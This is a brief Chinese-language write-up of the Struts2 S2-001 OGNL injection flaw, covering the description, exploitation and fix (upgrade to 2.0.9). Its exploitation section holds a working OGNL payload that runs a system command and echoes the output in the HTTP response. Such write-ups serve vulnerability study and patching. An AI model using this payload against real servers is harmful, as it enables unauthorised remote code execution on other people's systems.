

### 一 漏洞描述
在默认配置下，如果用户所提交的表单出现验证错误，后端会对用户的输入进行解析处理，然后返回并显示处理结果。  
举个例子，当你提交的登录表单为username=xishir&password=%{1+1}时，后端验证登录失败后会返回登录界面并显示你的输入，这时password字段中的OGNL表达式已经被解析处理过了，所以会显示%{1+1}的解析结果2，从而可以构造payload进行RCE。

### 二 漏洞利用

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

### 三 漏洞修复
升级到Struts 2.0.9

> 参考链接
> https://github.com/xhycccc/Struts2-Vuln-Demo/tree/master/s2-001
